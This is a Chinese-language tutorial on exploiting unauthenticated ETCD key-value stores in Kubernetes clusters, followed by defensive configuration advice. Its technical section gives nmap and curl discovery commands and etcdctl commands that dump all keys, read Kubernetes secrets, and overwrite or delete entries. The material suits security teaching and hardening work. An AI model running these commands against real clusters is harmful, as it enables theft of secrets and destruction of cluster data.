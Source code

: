 # ETCD未授权访问利用

## 1. 概述

### 1.1 定义
ETCD 是一个高可用的分布式键值存储系统，常用于 Kubernetes 等容器编排系统中存储集群的配置数据和状态信息。由于其存储的数据通常具有高度敏感性，因此 ETCD 的安全性至关重要。未授权访问（Unauthorized Access）是指攻击者能够在未经授权的情况下访问 ETCD 服务，从而获取、修改或删除存储在其中的数据。

### 1.2 背景
ETCD 默认情况下会监听 2379 端口（用于客户端通信）和 2380 端口（用于节点间通信）。如果 ETCD 服务未正确配置访问控制，攻击者可以通过这些端口直接访问 ETCD，进而获取集群的敏感信息，甚至控制整个集群。

## 2. 原理

### 2.1 ETCD 的访问控制机制
ETCD 提供了基于 TLS 的认证和基于角色的访问控制（RBAC）机制。然而，许多生产环境中的 ETCD 实例并未启用这些安全措施，导致服务暴露在公网或内网中，成为潜在的攻击目标。

### 2.2 未授权访问的成因
未授权访问通常由以下原因引起：
- **未启用认证**：ETCD 默认不启用客户端认证，任何知道服务地址的客户端都可以直接访问。
- **配置错误**：管理员可能错误地配置了 ETCD，例如将服务暴露在公网或未启用 TLS。
- **弱密码或默认凭证**：如果启用了认证，但使用了弱密码或默认凭证，攻击者仍可能通过暴力破解或凭证猜测获得访问权限。

## 3. 分类

### 3.1 基于网络暴露的分类
- **公网暴露**：ETCD 服务直接暴露在互联网上，攻击者可以通过扫描工具发现并访问。
- **内网暴露**：ETCD 服务仅在内网中暴露，但攻击者通过内网渗透或横向移动后可以访问。

### 3.2 基于访问方式的分类
- **直接访问**：攻击者通过 ETCD 的客户端接口直接访问服务。
- **间接访问**：攻击者通过其他服务（如 Kubernetes API Server）间接访问 ETCD。

## 4. 技术细节

### 4.1 发现 ETCD 服务
攻击者通常使用端口扫描工具（如 Nmap）来发现暴露的 ETCD 服务。以下是一个简单的 Nmap 命令示例：
```bash
nmap -p 2379,2380 <target_ip>
```
如果目标主机开放了 2379 或 2380 端口，攻击者可以进一步确认是否为 ETCD 服务。

### 4.2 确认 ETCD 服务
攻击者可以通过发送 HTTP 请求来确认服务是否为 ETCD。以下是一个使用 `curl` 的示例：
```bash
curl http://<target_ip>:2379/version
```
如果返回类似以下内容，则确认是 ETCD 服务：
```json
{"etcdserver":"3.4.0","etcdcluster":"3.4.0"}
```

### 4.3 未授权访问利用
一旦确认目标为 ETCD 服务且未启用认证，攻击者可以直接使用 `etcdctl` 工具进行操作。以下是一些常见的利用方式：

#### 4.3.1 获取所有键值对
```bash
etcdctl --endpoints=http://<target_ip>:2379 get / --prefix --keys-only
```
该命令会列出 ETCD 中存储的所有键值对。

#### 4.3.2 获取特定键的值
```bash
etcdctl --endpoints=http://<target_ip>:2379 get /registry/secrets/default/my-secret
```
该命令会获取指定键的值，通常用于获取敏感信息如 Kubernetes 的 Secret。

#### 4.3.3 修改或删除键值对
```bash
etcdctl --endpoints=http://<target_ip>:2379 put /registry/secrets/default/my-secret "new_value"
etcdctl --endpoints=http://<target_ip>:2379 del /registry/secrets/default/my-secret
```
这些命令可以用于修改或删除 ETCD 中的键值对，可能导致集群配置被篡改或服务中断。

### 4.4 利用工具
除了 `etcdctl`，攻击者还可以使用其他工具来利用 ETCD 未授权访问漏洞，例如：
- **etcd-dump**：用于导出 ETCD 中的所有数据。
- **etcd-explorer**：一个图形化工具，用于浏览和操作 ETCD 数据。

## 5. 攻击向量

### 5.1 信息泄露
通过未授权访问，攻击者可以获取集群的配置信息、敏感数据（如 Secret、ConfigMap）等，进而进一步渗透集群。

### 5.2 集群控制
攻击者可以通过修改 ETCD 中的数据来控制 Kubernetes 集群，例如创建或删除 Pod、Service 等资源。

### 5.3 数据破坏
攻击者可以删除或篡改 ETCD 中的数据，导致集群配置错误或服务中断。

## 6. 防御思路和建议

### 6.1 启用认证
确保 ETCD 启用了客户端认证，使用 TLS 证书进行身份验证。以下是一个启用 TLS 的 ETCD 配置示例：
```yaml
listen-client-urls: https://0.0.0.0:2379
advertise-client-urls: https://<etcd_ip>:2379
cert-file: /etc/etcd/server.crt
key-file: /etc/etcd/server.key
client-cert-auth: true
trusted-ca-file: /etc/etcd/ca.crt
```

### 6.2 限制网络访问
确保 ETCD 服务仅在内网中暴露，并通过防火墙或安全组限制访问来源。例如，只允许 Kubernetes API Server 访问 ETCD。

### 6.3 使用强密码
如果启用了密码认证，确保使用强密码并定期更换。

### 6.4 定期审计
定期审计 ETCD 的配置和访问日志，及时发现和修复潜在的安全问题。

### 6.5 更新和补丁
及时更新 ETCD 到最新版本，修复已知的安全漏洞。

## 7. 总结
ETCD 未授权访问是一个严重的安全问题，可能导致集群的敏感信息泄露、配置篡改甚至完全控制。通过启用认证、限制网络访问、使用强密码、定期审计和及时更新等措施，可以有效降低 ETCD 未授权访问的风险。作为中高级安全从业人员，应深入理解 ETCD 的安全机制，并在实际工作中加以应用，确保集群的安全性。

---

*文档生成时间: 2025-03-14 13:02:53*
